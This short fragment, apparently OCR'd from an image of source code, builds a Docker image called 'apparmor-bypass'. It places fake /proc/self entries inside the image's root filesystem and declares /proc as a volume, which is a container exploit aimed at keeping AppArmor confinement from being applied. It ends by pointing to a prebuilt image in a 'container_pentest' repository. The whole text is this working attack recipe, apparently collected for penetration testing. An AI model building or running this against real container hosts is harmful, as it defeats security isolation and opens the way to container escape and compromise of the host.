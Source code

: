 
```
mkdir -p rootfs/proc/self/{attr,fd}
touch rootfs/proc/self/{status,attr/exec}
touch rootfs/proc/self/fd/{4,5}

cat <<EOF > Dockerfile
FROM busybox
ADD rootfs /

VOLUME /proc
EOF

docker build -t apparmor-bypass .
```

swr.cn-southwest-2.myhuaweicloud.com/container_pentest/apparmor-bypass:v0.1